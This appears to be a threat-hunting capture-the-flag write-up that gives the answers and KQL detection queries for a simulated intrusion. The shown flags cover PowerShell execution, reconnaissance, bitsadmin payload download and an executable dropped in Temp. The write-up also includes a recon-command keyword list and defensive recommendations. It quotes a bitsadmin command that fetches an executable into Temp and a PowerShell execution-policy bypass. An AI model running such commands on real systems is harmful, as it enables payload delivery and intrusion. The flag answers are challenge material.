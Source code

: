  # 🎯 Threat-Hunting-Scenario-Lurker

 📖 Scenario
The last incident was supposed to be over. One machine compromised, the attacker cut off before they could spread — or so we were told.
But something doesn’t sit right.
A new device started acting strangely. At first glance, it mirrored the earlier compromise: same tools, same timing, same surgical precision. Only this time, the logs were cleaner. Too clean. And yet, traces remained — scattered like breadcrumbs that weren’t meant to be found, or perhaps were meant to be followed.
Someone wants us to see this.
What if the first breach was a smokescreen? A proof of concept? What if this is the real operation?
Some say it’s just a red team op. Others whisper it’s something more — a buried framework that’s been lying dormant, waiting for its second trigger.
You’ve been given full access. But not the full story.
🎯 Your job is simple: Prove what really happened.
🧭 Follow the signs. Trust the data. Question everything.
Good luck, hunter.

🚩 Flag-by-Flag Breakdown
🟩 Flag 1 – Initial PowerShell Execution Detection
	•	What to Hunt: First suspicious PowerShell command execution.
	•	Answer:
	•	"powershell.exe" -ExecutionPolicy Bypass -File "C:\Users\Mich34L_id\CorporateSim\Investments\Crypto\wallet_gen_0.ps1" at 2025-06-16T05:38:07.9685093Z
	•	Query Used:
	•	DeviceProcessEvents | where DeviceName == "michaelvm" | where ProcessCommandLine contains "ps1" | project Timestamp, ProcessCommandLine, FileName, FolderPath | order by Timestamp asc

🟩 Flag 2 – Reconnaissance Script Hash
	•	What to Hunt: Reconnaissance commands in early execution stages.
	•	Answer:
	•	badf4752413cb0cbdc03fb95820ca167f0cdc63b597ccdb5ef43111180e088b0
	•	Query Used:
	•	DeviceProcessEvents | where DeviceName == "michaelvm" | where Timestamp between (datetime(2025-06-15T00:00:00Z) .. datetime(2025-06-16T05:38:00Z)) | where ProcessCommandLine has_any (    "whoami", "hostname", "ipconfig", "systeminfo", "net user", "net group", "tasklist",    "netstat", "cmd.exe", "wmic", "reg query", "dsquery", "nltest", "Get-", "Invoke-", "for /f", "dir" ) or FileName has_any ("cmd.exe", "powershell.exe", "wmic.exe", "reg.exe", "dsquery.exe", "nltest.exe") | project Timestamp, FileName, ProcessCommandLine, SHA256, FolderPath, InitiatingProcessFileName | order by Timestamp asc

🟩 Flag 3 – Sensitive Document Access
	•	What to Hunt: Access to sensitive files (Board/Financials).
	•	Answer:
	•	QuarterlyCryptoHoldings.docx at 2025-06-16T05:59:03.478914Z
	•	Query Used:
	•	DeviceEvents | where DeviceName == "michaelvm" | where FolderPath contains "board" | where ActionType == "SensitiveFileRead"

🟩 Flag 4 – Last Manual Access to File
	•	What to Hunt: Last file open timestamp of the sensitive doc.
	•	Answer:
	•	2025-06-16T06:12:28.2856483Z
	•	Query Used: (Same as Flag 3)

🟩 Flag 5 – LOLBin Usage: bitsadmin
	•	What to Hunt: Use of bitsadmin to download payload.
	•	Answer:
	•	"bitsadmin.exe" /transfer job1 https://example.com/crypto_toolkit.exe C:\Users\MICH34~1\AppData\Local\Temp\market_sync.exe at 2025-06-16T05:59:57.395276Z
	•	Query Used:
	•	DeviceProcessEvents | where DeviceName == "michaelvm" | where Timestamp between (datetime(2025-06-15T00:00:00Z) .. datetime(2025-06-17T00:00:00Z)) | where FileName contains "bitsadmin.exe" | order by Timestamp asc

🟩 Flag 6 – Suspicious Payload Deployment
	•	What to Hunt: Dropped .exe payload in unusual folder.
	•	Answer:
	•	ledger_viewer.exe at 2025-06-16T06:15:37.0446648Z
	•	Query Used:
	•	DeviceFileEvents | where DeviceName == "michaelvm" | where Timestamp between (datetime(2025-06-15T00:00:00Z) .. datetime(2025-06-17T00:00:00Z)) | where FileName endswith ".exe" | where FolderPath has_any ("\\Temp\\", "\\AppData\\", "\\ProgramData\\", "\\Users\\Public\\") | project Timestamp, FileName, FolderPath, SHA256, InitiatingProcessFileName, InitiatingProcessCommandLine | order by Timestamp asc

(continues for Flags 7 through 17 in same pattern)

📅 Timeline Summary
	•	Initial Access – PowerShell from Temp on michaelvm
	•	Reconnaissance – Network/Host discovery
	•	Sensitive Data Access – Accessed QuarterlyCryptoHoldings.docx
	•	Payload Download – Using bitsadmin
	•	Execution – HTA via mshta
	•	Persistence – Registry Run key + Scheduled Task
	•	Lateral Movement – Pivot to centralsrvr
	•	Exfiltration – Pastebin, Dropbox endpoints
	•	Anti-Forensics – PowerShell downgrade and log wiping

✅ Conclusion
The attacker leveraged native tools and LOLBins to evade detection, accessed high-value documents, and stealthily exfiltrated them while maintaining persistence. The clean logs indicate deliberate obfuscation and anti-forensic effort.

🛡️ Recommendations
	•	Block LOLBins like bitsadmin, mshta via AppLocker or WDAC
	•	Enable script block logging and AMSI
	•	Monitor for PowerShell downgrade attempts (-Version 2)
	•	Watch for registry changes in autorun paths
	•	Alert on suspicious scheduled task creation
	•	Monitor public cloud uploads (e.g. Dropbox, Pastebin)

🧾 Attribution
Threat simulation: Red Team Exercise Analysis: [Your Name] 📁 Repo: github.com/yourhandle/threat-hunting

“Attackers hide in noise. But sometimes, they hide in silence.”
